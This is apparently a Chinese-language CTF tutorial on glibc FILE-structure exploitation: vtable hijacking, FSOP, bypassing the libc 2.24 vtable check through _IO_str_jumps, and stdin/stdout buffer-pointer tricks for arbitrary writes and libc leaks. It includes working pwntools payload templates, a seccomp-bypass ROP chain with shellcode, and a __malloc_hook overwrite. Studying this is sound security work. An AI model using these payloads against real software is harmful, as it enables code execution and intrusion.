

## _IO_FILE定义

FILE结构定义在libio.h中，如下所示

```c
struct _IO_FILE {
  int _flags;       /* High-order word is _IO_MAGIC; rest is flags. */
#define _IO_file_flags _flags

  /* The following pointers correspond to the C++ streambuf protocol. */
  /* Note:  Tk uses the _IO_read_ptr and _IO_read_end fields directly. */
  char* _IO_read_ptr;   /* Current read pointer */
  char* _IO_read_end;   /* End of get area. */
  char* _IO_read_base;  /* Start of putback+get area. */
  char* _IO_write_base; /* Start of put area. */
  char* _IO_write_ptr;  /* Current put pointer. */
  char* _IO_write_end;  /* End of put area. */
  char* _IO_buf_base;   /* Start of reserve area. */
  char* _IO_buf_end;    /* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain;

  int _fileno;
#if 0
  int _blksize;
#else
  int _flags2;
#endif
  _IO_off_t _old_offset; /* This used to be _offset but it's too small.  */

#define __HAVE_COLUMN /* temporary */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  /*  char* _save_gptr;  char* _save_egptr; */

  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
#endif
#if defined _G_IO_IO_FILE_VERSION && _G_IO_IO_FILE_VERSION == 0x20001
  _IO_off64_t _offset;
# if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
  /* Wide character stream stuff.  */
  struct _IO_codecvt *_codecvt;
  struct _IO_wide_data *_wide_data;
  struct _IO_FILE *_freeres_list;
  void *_freeres_buf;
# else
  void *__pad1;
  void *__pad2;
  void *__pad3;
  void *__pad4;
# endif
  size_t __pad5;
  int _mode;
  /* Make sure we don't get into trouble again.  */
  char _unused2[15 * sizeof (int) - 4 * sizeof (void *) - sizeof (size_t)];
#endif

};
```

进程中的FILE结构会通过`_chain`域彼此连接形成一个链表，链表头部用全局变量`_IO_list_all`表示，通过这个值我们可以遍历所有的FILE结构。

在标准I/O库中，每个程序启动时有三个文件流是自动打开的：stdin、stdout、stderr。因此在初始状态下，`_IO_list_all`指向了一个有这些文件流构成的链表，但是需要注意的是这三个文件流位于libc.so的数据段。而我们使用fopen创建的文件流是分配在堆内存上的。

我们可以在libc.so中找到`stdin\stdout\stderr`等符号，这些符号是指向FILE结构的指针，真正结构的符号是

	_IO_2_1_stderr_
	_IO_2_1_stdout_
	_IO_2_1_stdin_

通常在使用printf/puts函数的时候，会使用`_IO_2_1_stdout_`结构；在使用scanf/gets的时候，会使用`_IO_2_1_stdin_`结构

事实上`_IO_FILE`结构外包裹着另一种结构`_IO_FILE_plus`，其中包含了一个重要的指针`vtable`指向了一系列函数指针。

```c
struct _IO_FILE_plus
{
    _IO_FILE    file;
    IO_jump_t   *vtable;
}
```

64位IO_FILE_plus结构体中的偏移

```c
0x0   _flags
0x8   _IO_read_ptr
0x10  _IO_read_end
0x18  _IO_read_base
0x20  _IO_write_base
0x28  _IO_write_ptr
0x30  _IO_write_end
0x38  _IO_buf_base
0x40  _IO_buf_end
0x48  _IO_save_base
0x50  _IO_backup_base
0x58  _IO_save_end
0x60  _markers
0x68  _chain
0x70  _fileno
0x74  _flags2
0x78  _old_offset
0x80  _cur_column
0x82  _vtable_offset
0x83  _shortbuf
0x88  _lock
0x90  _offset
0x98  _codecvt
0xa0  _wide_data
0xa8  _freeres_list
0xb0  _freeres_buf
0xb8  __pad5
0xc0  _mode
0xc4  _unused2
0xd8  vtable
```
vtable是`_IO_jump_t`类型的指针，`_IO_jump_t`中保存了一些函数指针，在后面我们会看到在一系列标准IO函数中会调用这些函数指针，该类型在libc文件中的导出符号是`_IO_file_jumps`。**据我观察好像所有的`_IO_FILE_plus`的`vtable`指针都是同一指向(至少stderr,stdout,stdin是这样),这为漏洞利用提供了方便**

```c
pwndbg> p _IO_file_jumps
$7 = {
  __dummy = 0, 
  __dummy2 = 0, 
  __finish = 0x7ffff7a8ac80 <_IO_new_file_finish>, 
  __overflow = 0x7ffff7a8b6d0 <_IO_new_file_overflow>, 
  __underflow = 0x7ffff7a8b480 <_IO_new_file_underflow>, 
  __uflow = 0x7ffff7a8c530 <__GI__IO_default_uflow>, 
  __pbackfail = 0x7ffff7a8d6e0 <__GI__IO_default_pbackfail>, 
  __xsputn = 0x7ffff7a8a500 <_IO_new_file_xsputn>, 
  __xsgetn = 0x7ffff7a8a210 <__GI__IO_file_xsgetn>, 
  __seekoff = 0x7ffff7a89870 <_IO_new_file_seekoff>, 
  __seekpos = 0x7ffff7a8caa0 <_IO_default_seekpos>, 
  __setbuf = 0x7ffff7a897e0 <_IO_new_file_setbuf>, 
  __sync = 0x7ffff7a89710 <_IO_new_file_sync>, 
  __doallocate = 0x7ffff7a7e7b0 <__GI__IO_file_doallocate>, 
  __read = 0x7ffff7a8a4e0 <__GI__IO_file_read>, 
  __write = 0x7ffff7a89ed0 <_IO_new_file_write>, 
  __seek = 0x7ffff7a89cd0 <__GI__IO_file_seek>, 
  __close = 0x7ffff7a897d0 <__GI__IO_file_close>, 
  __stat = 0x7ffff7a89ec0 <__GI__IO_file_stat>, 
  __showmanyc = 0x7ffff7a8d840 <_IO_default_showmanyc>, 
  __imbue = 0x7ffff7a8d850 <_IO_default_imbue>
}

```

下面简单说说一些c函数对`_IO_jump_t`虚表里面函数的调用情况

* printf/puts 最终会调用`_IO_file_xsputn`
* fclose 最终会调用`_IO_FILE_FINISH`
* fwrite 最终会调用`_IO_file_xsputn`
* fread 最终会调用`_IO_fiel_xsgetn `
* scanf/gets 最终会调用`_IO_file_xsgetn`

## libc_2.24以下的利用

前面我们介绍了 Linux 中文件流的特性（FILE），我们可以得知 Linux 中的一些常见的 IO 操作函数都需要经过 FILE 结构进行处理。尤其是_IO_FILE_plus 结构中存在 vtable，一些函数会取出 vtable 中的指针进行调用。

由于位于 libc 数据段的 vtable 是不可以进行写入的，所以我们只能伪造 vtable

伪造 vtable 劫持程序流程的中心思想就是针对_IO_FILE_plus 的 vtable 动手脚，通过把 vtable 指向我们控制的内存，并在其中布置函数指针来实现。

**所以**,最常见的利用方法就是修改`_IO_2_1_stdout_`结构，因为printf时会用到该结构，且最终会调用到该结构vtable里面的`_IO_file_xsputn`函数指针。

**so怎么定位`_IO_2_1_stdout_`结构？`_IO_file_xsputn`函数指针改成啥？**

如果程序有调用`setbuf`或者`setvbuf`函数来设置stdin,stdout,stderr输入流等，那么程序的bss段上就会存在它的指针（但未初始化）如：


但通常情况下，可以泄露libc地址的情况下，我们能够在libc文件中找到直接找到`_IO_2_1_stdout_`

改函数指针我们可以填充为one_gadget,这样就不用考虑参数问题；若`one_gadget`的环境变量都不好使，可以考虑填充为system函数地址，传参的话，**多数vtable函数指针在被调用时，会将它的`_IO_FILE_plus`地址当作第一个参数传递**，所以我们可以将`_IO_FILE_plus`的`_flags`成员填成`“/bin/sh\x00”`,但这种方法通常也不好用，因为**调用vtable函数指针之前会对`_IO_FILE_plus`的结构进行检查**，通常改“/bin/sh\x00”之后会导致对`_flags`成员的检查不通过（亲测printf不行，但House of orange利用中出现的`_IO_flush_all_lockp`能检查通过）

## FSOP利用

见我的另一篇文章[https://sirhc.xyz/2018/11/06/House-of-orange/#fsop](https://sirhc.xyz/2018/11/06/House-of-orange/#fsop%E5%8E%9F%E7%90%86)

* 64位的_IO_FILE_plus构造模板：

```python
stream = "/bin/sh\x00"+p64(0x61)
stream += p64(0xDEADBEEF)+p64(IO_list_all-0x10)
stream +=p64(1)+p64(2) # fp->_IO_write_ptr > fp->_IO_write_base
stream = stream.ljust(0xc0,"\x00")
stream += p64(0) # mode<=0
stream += p64(0)
stream += p64(0)
stream += p64(vtable_addr)
```

* 32位的_IO_FILE_plus构造模板：

```python
stream = "sh\x00\x00"+p32(0x31)   # system_call_parameter and link to small_bin[4] 
stream += ";$0\x00"+p32(IO_list_all-0x8)   # Unsorted_bin attack
stream +=p32(1)+p32(2)     # fp->_IO_write_ptr > fp->_IO_write_base
stream = stream.ljust(0x88,"\x00")  
stream += p32(0)    # mode<=0
stream += p32(0)
stream += p32(0)
stream += p32(vtable_addr)  # vtable_addr --> system
```
* 64位下seccomp禁用execve系统调用的构造模板：

```python
    io_list_all = libc_base+libc.symbols['_IO_list_all']
    setcontext = libc_base+libc.symbols['setcontext']
    mprotect = libc_base+libc.symbols['mprotect']
    Open = libc_base+libc.symbols['open']
    Read = libc_base+libc.symbols['read']
    Write = libc_base+libc.symbols['write']
    pop_rdi_ret = 0x0000000000400d93
    pop_rsi_ret = libc_base+0x00000000000202e8
    pop_rdx_ret = libc_base+0x0000000000001b92
    pop_rdi_rbp_ret = libc_base+0x0000000000020256
    pop_three_ret = 0x0000000000400d8f
    ret = 0x00000000004008d9

    context.arch = 'amd64'
    shellcode = asm(shellcraft.amd64.linux.cat('flag'))

    rop = flat(
        p64(pop_rdi_ret),
        p64(current_io_chunk&~0xfff),
        p64(pop_rsi_ret),
        p64(0x1000),
        p64(pop_rdx_ret),
        p64(7),
        p64(mprotect),
    )

    rop += p64(current_io_chunk+0x30+len(rop)+8)+shellcode
    
    fake_vtable = current_io_chunk+0xe0-0x18

    payload = p64(0) + p64(0x61)
    payload += p64(0xddaa) + p64(io_list_all-0x10)
    payload += p64(2) + p64(3)
    payload += rop
    payload = payload.ljust(0xa0,'\x00')
    payload += p64(current_io_chunk+0x30) #rsp
    payload += p64(ret) # to rop
    payload = payload.ljust(0xd8,'\x00')
    payload += p64(fake_vtable)
    payload += p64(setcontext+53) # 0xe0
```

将函数控制流控制在 setcontext+53 的位置，是因为这里正好可以修改 rsp 到我们的可控地址来进
行 rop，在切栈之后就可以按照如上过程执行 rop。
首先调用 mprotect 函数将 当前 heap 段设置为可执行，然后调用 cat flag 的 shellcode。

```python 

   0x7ffff77ef0a5 <setcontext+53>:	mov    rsp,QWORD PTR [rdi+0xa0]
   0x7ffff77ef0ac <setcontext+60>:	mov    rbx,QWORD PTR [rdi+0x80]
   0x7ffff77ef0b3 <setcontext+67>:	mov    rbp,QWORD PTR [rdi+0x78]
   0x7ffff77ef0b7 <setcontext+71>:	mov    r12,QWORD PTR [rdi+0x48]
   0x7ffff77ef0bb <setcontext+75>:	mov    r13,QWORD PTR [rdi+0x50]
   0x7ffff77ef0bf <setcontext+79>:	mov    r14,QWORD PTR [rdi+0x58]
   0x7ffff77ef0c3 <setcontext+83>:	mov    r15,QWORD PTR [rdi+0x60]
   0x7ffff77ef0c7 <setcontext+87>:	mov    rcx,QWORD PTR [rdi+0xa8]
   0x7ffff77ef0ce <setcontext+94>:	push   rcx
   0x7ffff77ef0cf <setcontext+95>:	mov    rsi,QWORD PTR [rdi+0x70]
   0x7ffff77ef0d3 <setcontext+99>:	mov    rdx,QWORD PTR [rdi+0x88]
   0x7ffff77ef0da <setcontext+106>:	mov    rcx,QWORD PTR [rdi+0x98]
   0x7ffff77ef0e1 <setcontext+113>:	mov    r8,QWORD PTR [rdi+0x28]
   0x7ffff77ef0e5 <setcontext+117>:	mov    r9,QWORD PTR [rdi+0x30]
   0x7ffff77ef0e9 <setcontext+121>:	mov    rdi,QWORD PTR [rdi+0x68]
   0x7ffff77ef0ed <setcontext+125>:	xor    eax,eax
   0x7ffff77ef0ef <setcontext+127>:	ret  
```


## libc_2.24及以上的利用

glibc 2.24 对 `vtable` 做了检测，导致我们不能通过伪造 `vtable` 来执行代码，对 `vtable` 进行校验的函数是 `IO_validate_vtable`

```c
static inline const struct _IO_jump_t *
IO_validate_vtable (const struct _IO_jump_t *vtable)
{
  /* Fast path: The vtable pointer is within the __libc_IO_vtables
     section.  */
  uintptr_t section_length = __stop___libc_IO_vtables - __start___libc_IO_vtables;
  const char *ptr = (const char *) vtable;
  uintptr_t offset = ptr - __start___libc_IO_vtables;
  if (__glibc_unlikely (offset >= section_length))
    /* The vtable pointer is not in the expected section.  Use the
       slow path, which will terminate the process if necessary.  */
    _IO_vtable_check ();
  return vtable;
}
```

vtable必须要满足 在 `__stop___IO_vtables` 和 `__start___libc_IO_vtables` 之间，而我们伪造的vtable通常不满足这个条件。

但是我们找到一条出路，那就是`_IO_str_jumps` 与`__IO_wstr_jumps `就位于 `__stop___libc_IO_vtables` 和 `__start___libc_IO_vtables` 之间, 所以我们是可以利用他们来通过 `IO_validate_vtable` 的检测的,只需要将`vtable`填成`_IO_str_jumps` 或`__IO_wstr_jumps `就行。

```python
pwndbg> p __start___libc_IO_vtables
0x7fcbc6703900 <_IO_helper_jumps> ""
pwndbg> p __stop___libc_IO_vtables
0x7fcbc6704668 ""
pwndbg> p &_IO_str_jumps
(const struct _IO_jump_t *) 0x7fcbc6704500 <_IO_str_jumps>
pwndbg> p &_IO_wstr_jumps
(const struct _IO_jump_t *) 0x7fcbc6703cc0 <_IO_wstr_jumps>
```

其中，利用 `__IO_str_jumps` 绕过更简单，`__IO_str_jumps` 结构如下， 和vtable结构类似，`__IO_str_jumps`里面都是相似名字的函数指针，但功能不一样，且代码存在可利用漏洞

```c
const struct _IO_jump_t _IO_str_jumps libio_vtable =
{
  JUMP_INIT_DUMMY,
  JUMP_INIT_DUMMY2,
  JUMP_INIT(finish, _IO_str_finish),
  JUMP_INIT(overflow, _IO_str_overflow),
  JUMP_INIT(underflow, _IO_str_underflow),
  JUMP_INIT(uflow, _IO_default_uflow),
  JUMP_INIT(pbackfail, _IO_str_pbackfail),
  JUMP_INIT(xsputn, _IO_default_xsputn),
  JUMP_INIT(xsgetn, _IO_default_xsgetn),
  JUMP_INIT(seekoff, _IO_str_seekoff),
  JUMP_INIT(seekpos, _IO_default_seekpos),
  JUMP_INIT(setbuf, _IO_default_setbuf),
  JUMP_INIT(sync, _IO_default_sync),
  JUMP_INIT(doallocate, _IO_default_doallocate),
  JUMP_INIT(read, _IO_default_read),
  JUMP_INIT(write, _IO_default_write),
  JUMP_INIT(seek, _IO_default_seek),
  JUMP_INIT(close, _IO_default_close),
  JUMP_INIT(stat, _IO_default_stat),
  JUMP_INIT(showmanyc, _IO_default_showmanyc),
  JUMP_INIT(imbue, _IO_default_imbue)
};
```
下面列出几种可行方法，但不限于这几种：

* 利用`__IO_str_jumps`中的`_IO_str_finsh`函数
* 利用`__IO_str_jumps`中的`_IO_str_overflow`函数


#### 如何定位_IO_str_jumps？

由于 `_IO_str_jumps` 不是导出符号，因此无法直接利用 pwntool s的 `libc.sym["_IO_str_jumps"]` 进行定位，我们可以转换一下思路，利用 `_IO_str_jumps`中的导出函数，例如 `_IO_str_underflow` 进行辅助定位，我们可以利用gdb去查找所有包含这个`_IO_str_underflow` 函数地址的内存地址，如下所示：

```python
pwndbg> p _IO_str_underflow
$1 = {<text variable, no debug info>} 0x7f4d4cf04790 <_IO_str_underflow>
pwndbg> search -p 0x7f4d4cf04790
libc.so.6       0x7f4d4d2240a0 0x7f4d4cf04790
libc.so.6       0x7f4d4d224160 0x7f4d4cf04790
libc.so.6       0x7f4d4d2245e0 0x7f4d4cf04790
pwndbg> p &_IO_file_jumps
$2 = (<data variable, no debug info> *) 0x7f4d4d224440 <_IO_file_jumps>
```
再利用 `_IO_str_jumps` 的地址大于 `_IO_file_jumps` 地址的条件，就可以锁定最后一个地址为符合条件的 `_IO_str_jumps` 的地址，由于 `_IO_str_underflow` 在`_IO_str_jumps` 的偏移为0x20，我们可以计算出`_IO_str_jumps` = 0x7f4d4d2245c0，再减掉libc的基地址，就可以得到`_IO_str_jumps` 的正确偏移。
当然也可以用IDA Pro分析libc.so，查找`_IO_file_jumps` 后的jump表即可。
此外，介绍一种直接利用pwntools得到`_IO_str_jumps` 偏移的方法，思想与采用动态调试分析的方法类似，直接放代码（该方法在我自己的测试环境中GLIBC 2.23、2.24版本均测试通过）：

```python
IO_file_jumps_offset = libc.sym['_IO_file_jumps']
IO_str_underflow_offset = libc.sym['_IO_str_underflow']
for ref_offset in libc.search(p64(IO_str_underflow_offset)):
    possible_IO_str_jumps_offset = ref_offset - 0x20
    if possible_IO_str_jumps_offset > IO_file_jumps_offset:
        print possible_IO_str_jumps_offset
        break
```


#### 利用_IO_str_finsh

```c
void
_IO_str_finish (FILE *fp, int dummy)
{
  if (fp->_IO_buf_base && !(fp->_flags & 1))
    ((void (*)(void))fp + 0xE8 ) (fp->_IO_buf_base); // call qword ptr [fp+E8h]
  fp->_IO_buf_base = NULL;
  _IO_default_finish (fp, 0);
}
```

所以在调用`_IO_str_finsh`时只需要满足条件

	fp->_IO_buf_base为真
	fp->_flags & 1 为假  // fp->_flags=0

便可以`call qword ptr [fp+E8h]`,于是我们把`fp+E8`处填成`system_addr` ,还有 `fp->_IO_buf_base`填上`binsh_addr地址`。至于怎么call到这个虚表函数，可以利用vtable也就是`__IO_str_jumps`地址错位的方法，详细见下面解说。

`_IO_str_finsh`在libc2.24及以上最常使用的场景之一是 伪造printf的`_IO_FILE` ，printf里面的`vfprintf`函数对`_IO_FILE`的check比较严格，但`_IO_str_finsh`对`_IO_FILE`的check和`vfprintf`几乎是相似的，不冲突。  printf最后调用到的是`vtable+0x38`处的`_IO_xsputn`,但`_IO_str_finish`的偏移为`0x10`，我们可以将虚表地址填成`_IO_str_jumps - 0x28`,这样就能调用到`_IO_str_finish`


#### 利用_IO_str_overflow

利用`_IO_str_overflow` 比 `_IO_str_finish`复杂

```c
__int64 __fastcall IO_str_overflow(_IO_FILE *fp, unsigned int a2)
{
  int v2; // ecx
  signed __int64 result; // rax
  _QWORD *v4; // rdx
  char *v5; // r12
  unsigned __int64 v6; // r13
  unsigned __int64 v7; // r14
  __int64 v8; // rax
  __int64 v9; // r15
  _QWORD *v10; // rax
  _QWORD *v11; // rax

  v2 = fp->_flags;
  if ( fp->_flags & 8 )
    return (unsigned int)-(a2 != -1);
  if ( (fp->_flags & 0xC00) == 0x400 )
  {
    v4 = fp->_IO_read_ptr;
    v11 = fp->_IO_read_end;
    BYTE1(v2) |= 8u;
    LODWORD(fp->_flags) = v2;
    fp->_IO_write_ptr = v4;
    fp->_IO_read_ptr = v11;
  }
  else
  {
    v4 = fp->_IO_write_ptr;
  }
  v6 = (char *)fp->_IO_buf_end - (char *)fp->_IO_buf_base
  if ( (char *)v4 - (char *)fp->_IO_write_base >= v6 + (a2 == -1) )
  {
    if ( v2 & 1 )
      return 0xFFFFFFFFLL;
    v7 = 2 * v6 + 100;
    if ( v6 > v7 )
      return 0xFFFFFFFFLL;
    v8 = ((__int64 (__fastcall *)(unsigned __int64)) fp + 0xE0)(2 * v6 + 100); // call
    v9 = v8;
    .........
  }
  .......
  .......
}
```

来看看要绕过的地方

`fp->_flags & 8` 得为0，`(fp->_flags & 0xC00) == 0x400` 得为0 , `fp->_flags & 1` 得为0, 所以我这里就将`fp->_flags`设置为0 ； 并设置`fp->_IO_write_ptr - fp->_IO_write_base > fp->_IO_buf_end - fp->_IO_buf_base`

这样我们才能够绕过检查，来到函数调用`(fp + 0xE0)(2 * v6 + 100)`也就是 `(fp + 0xE0)(2 * (fp->_IO_buf_end - fp->_IO_buf_base) + 100)`

我们可以将 `fp + 0x E0`设置成 `system`函数地址 ,`fp->_IO_buf_base`设置成0，`fp->_IO_buf_end`设置成 `(binsh_addr-100)/2`这样就设置了system参数，`fp->_IO_write_ptr`设置成一个很大的正值

这里有个坑，就是`(binsh_addr-100)/2`, 当`/bin/sh`地址存在于libc中，它/2再*2 若是除不尽有余数的话 会影响最后的参数地址，我们为了避免这种情况我们尽量在堆内存中填入`"/bin/sh\x00"`, 因为堆内存往往都是2的倍数对齐。

## 利用_IO_buf_end实现write

有条件的话我们可修改`_IO_2_1_stdin_`的 `_IO_buf_base` 与 `_IO_buf_end `,这样在执行scanf读取数据到缓冲区时，就可以写入东西到`_IO_buf_base`

常见的利用方式就是，利用 unsorted bin attack 去改写file结构体中的某些成员，比如_IO_2_1_stdin_ 中的 _IO_buf_end，这样在 _IO_buf_base 和_IO_buf_end(main_arena+0x58) 存在 __malloc_hook，可以利用scanf函数读取数据填充到该区域，注意尽量不要破坏已有数据。

scanf读取的payload如下：

```python
def get_stdin_lock_offset(self):
      IO_2_1_stdin = libc.sym['_IO_2_1_stdin_']
      lock_stdin_offset = 0x88
      return libc.u64(IO_2_1_stdin+lock_stdin_offset)

payload = "\x00"*5
payload += p64(libc_base + get_stdin_lock_offset())
payload += p64(0) * 9
payload += p64(libc_base + libc.sym['_IO_file_jumps'])
payload += "\x00" * (libc.sym['__malloc_hook'] - libc.sym['_IO_2_1_stdin_] - 0xe0) # 0xe0 is sizeof file plus struct
payload += p64(one_gadget)
```

## 利用IO_write_base实现leak

> Tips: tcache下可利用IO_write_ptr

* libc2.23讲解

puts函数由_IO_puts函数实现，其内部调用_IO_sputn,接着执行_IO_new_file_xsputn,最终会执行_IO_overflow

`_IO_puts`的相关源码:

```c
int
_IO_puts (const char *str)
{
  int result = EOF;
  _IO_size_t len = strlen (str);
  _IO_acquire_lock (_IO_stdout);

  if ((_IO_vtable_offset (_IO_stdout) != 0
       || _IO_fwide (_IO_stdout, -1) == -1)
      && _IO_sputn (_IO_stdout, str, len) == len
      && _IO_putc_unlocked ('\n', _IO_stdout) != EOF)
    result = MIN (INT_MAX, len + 1);

  _IO_release_lock (_IO_stdout);
  return result;
}
```
`_IO_new_file_overflow`的相关源码：

```c
int
_IO_new_file_overflow (FILE *f, int ch)
{
  if (f->_flags & _IO_NO_WRITES) /* SET ERROR */
    {
      f->_flags |= _IO_ERR_SEEN;
      __set_errno (EBADF);
      return EOF;
    }
  /* If currently reading or no buffer allocated. */
  if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0 || f->_IO_write_base == NULL)
    {
      /* Allocate a buffer if needed. */
      if (f->_IO_write_base == NULL)
        {
          _IO_doallocbuf (f);
          _IO_setg (f, f->_IO_buf_base, f->_IO_buf_base, f->_IO_buf_base);
        }
      /* Otherwise must be currently reading.
         If _IO_read_ptr (and hence also _IO_read_end) is at the buffer end,
         logically slide the buffer forwards one block (by setting the
         read pointers to all point at the beginning of the block).  This
         makes room for subsequent output.
         Otherwise, set the read pointers to _IO_read_end (leaving that
         alone, so it can continue to correspond to the external position). */
      if (__glibc_unlikely (_IO_in_backup (f)))
        {
          size_t nbackup = f->_IO_read_end - f->_IO_read_ptr;
          _IO_free_backup_area (f);
          f->_IO_read_base -= MIN (nbackup,
                                   f->_IO_read_base - f->_IO_buf_base);
          f->_IO_read_ptr = f->_IO_read_base;
        }
      if (f->_IO_read_ptr == f->_IO_buf_end)
        f->_IO_read_end = f->_IO_read_ptr = f->_IO_buf_base;
      f->_IO_write_ptr = f->_IO_read_ptr;
      f->_IO_write_base = f->_IO_write_ptr;
      f->_IO_write_end = f->_IO_buf_end;
      f->_IO_read_base = f->_IO_read_ptr = f->_IO_read_end;
      f->_flags |= _IO_CURRENTLY_PUTTING;
      if (f->_mode <= 0 && f->_flags & (_IO_LINE_BUF | _IO_UNBUFFERED))
        f->_IO_write_end = f->_IO_write_ptr;
    }
  if (ch == EOF)
    return _IO_do_write (f, f->_IO_write_base,
                         f->_IO_write_ptr - f->_IO_write_base);
  if (f->_IO_write_ptr == f->_IO_buf_end ) /* Buffer is really full */
    if (_IO_do_flush (f) == EOF)
      return EOF;
  *f->_IO_write_ptr++ = ch;
  if ((f->_flags & _IO_UNBUFFERED)
      || ((f->_flags & _IO_LINE_BUF) && ch == '\n'))
    if (_IO_do_write (f, f->_IO_write_base,
                      f->_IO_write_ptr - f->_IO_write_base) == EOF)
      return EOF;
  return (unsigned char) ch;
}
libc_hidden_ver (_IO_new_file_overflow, _IO_file_overflow)
```
这里如果`f->_flags & _IO_CURRENTLY_PUTTING`为零的话，里面的代码会进入`if (f->_IO_read_ptr == f->_IO_buf_end)`分支，将我们设置的_IO_write_base恢复，所以这里要让`f->_flags & _IO_CURRENTLY_PUTTING`为1.程序接下来下来调用输出函数 _IO_do_write，我们再接着看一下函数_IO_do_write,这个函数实际调用的时候会用到new_do_write函数，其参数与之前一样。


```c
static
_IO_size_t
new_do_write (_IO_FILE *fp, const char *data, _IO_size_t to_do)
{
  _IO_size_t count;
  if (fp->_flags & _IO_IS_APPENDING)
    fp->_offset = _IO_pos_BAD;
  else if (fp->_IO_read_end != fp->_IO_write_base)
    {
      _IO_off64_t new_pos
    = _IO_SYSSEEK (fp, fp->_IO_write_base - fp->_IO_read_end, 1);
      if (new_pos == _IO_pos_BAD)
    return 0;
      fp->_offset = new_pos;
    }
  count = _IO_SYSWRITE (fp, data, to_do);   //这里最终调用sysewrite来做到写的功能.
  if (fp->_cur_column && count)
    fp->_cur_column = _IO_adjust_column (fp->_cur_column - 1, data, count) + 1;
  _IO_setg (fp, fp->_IO_buf_base, fp->_IO_buf_base, fp->_IO_buf_base);
  fp->_IO_write_base = fp->_IO_write_ptr = fp->_IO_buf_base;
  fp->_IO_write_end = (fp->_mode <= 0
               && (fp->_flags & (_IO_LINE_BUF | _IO_UNBUFFERED))
               ? fp->_IO_buf_base : fp->_IO_buf_end);
  return count;
}

```

主要看函数的count赋值的那个地方，data=_IO_write_base,size=_IO_write_ptr - _IO_wirte_base就是这之间的距离，然后最后会return的count实现leak。ps：其中为了防止其进入else if 分支，会对文件指针进行校准，所以我们需要设置fp->_flags & _IO_IS_APPENDING返回1.

在setvbuf(stdout,0,2,0)后，输出流被设置成_IONBF(无缓冲）：直接从流中读入数据或直接向流中写入数据，而没有缓冲区。我们就可以利用如下方式：

如图



申请到`_IO_2_1_stderr_+160` 该处 错位能构造出一个size域为0x7f的chunk；

将`_IO_2_1_stdout_`的flag填成p64(0xfbad1800)能过printf或者puts的check，其他项随意填充成相同的libc地址即可；

重要的是将`IO_write_base`处的低1字节填充成“\x50”(缩小base的值)；

使其在下次puts时输出我们修改后的_IO_write_base到_IO_write_ptr的数据。这样就能泄露libc地址。

* libc2.27-tcache讲解
 
对于存在tcache机制的利用方法其实就很简单了，因为不用像2.23那样必须分配到伪造合适size的chunk，再覆盖stdout，我们可以直接分配到`_IO_write_ptr`,直接覆盖`_IO_write_ptr`低1byte为"\xff"。

这样的话我们不用考虑没有伪造flags的`_IO_CURRENTLY_PUTTING`域，在`_IO_new_file_overflow`函数中进入`if (f->_IO_read_ptr == f->_IO_buf_end)`分支，重置`_IO_write_`指针

也不用考虑进入`new_do_write`函数时，进入`else if (fp->_IO_read_end != fp->_IO_write_base)`分支对文件指针进行校验，因为此时我们没有修改`_IO_read_end ` 与`_IO_write_base`的值。

由于之前我们把`_IO_write_ptr`低1字节覆盖成"\xff"，所以在调用`_IO_SYSWRITE (fp, data, to_do)`时，data是`_IO_wirte_base`(base不变)，to_do是`IO_write_ptr - _IO_wirte_base`(ptr变大了),同样能打印中间的值，所以同样可泄露。